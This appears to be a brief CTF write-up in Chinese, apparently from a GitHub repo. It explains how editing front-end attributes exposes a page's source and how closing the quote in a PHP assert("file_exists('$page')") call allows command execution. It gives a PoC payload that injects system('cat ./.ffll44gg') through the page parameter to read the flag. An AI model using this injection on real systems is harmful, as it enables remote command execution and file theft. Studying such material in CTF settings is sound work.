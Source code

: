 - 修改前端改变元素属性，flag按钮得到源码

- `assert("file_exists('$page')");`闭合进行命令执行

- poc:

  ```
  $page = test'.system('cat ./.ffll44gg').'
  ```